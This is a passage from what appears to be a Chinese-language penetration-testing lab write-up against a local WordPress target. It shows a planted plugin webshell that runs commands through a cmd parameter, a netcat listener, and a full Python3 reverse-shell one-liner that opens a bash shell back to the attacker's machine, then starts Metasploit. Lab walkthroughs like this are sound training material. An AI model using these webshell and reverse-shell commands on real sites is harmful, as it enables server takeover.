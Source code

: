 

插件默认路径为：

http://10.0.2.11/wordpress/wp-content/plugins/shell.php

![image-20211117142901551](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211117142901551.png)

尝试执行id命令：

http://10.0.2.11/wordpress/wp-content/plugins/shell.php?cmd=id

![image-20211117143020914](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211117143020914.png)

确定了webshell上传成功，且可执行操作系统命令

##### 5.2.2 确认目标靶机上可利用的信息/软件

###### Kali监听4444端口

```
nc -nvlp 4444
```

![image-20211117143051516](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211117143051516.png)

###### 确定目标靶机是否有nc

（存在，但本次尝试其他方法）

![image-20211117143209631](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211117143209631.png)

###### 确定目标靶机是否有Python环境

![image-20211117144310167](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211117144310167.png)

![image-20211117144328196](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211117144328196.png)

![image-20211117144402379](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211117144402379.png)

目标靶机存在Python3环境

##### 5.2.3使用python3反弹shell代码

```
?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.4",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![image-20211117145344122](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211117145344122.png)

![image-20211117145402436](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211117145402436.png)

使用msf 寻找可利用的wordpress exp

```
sudo msfdb run
```
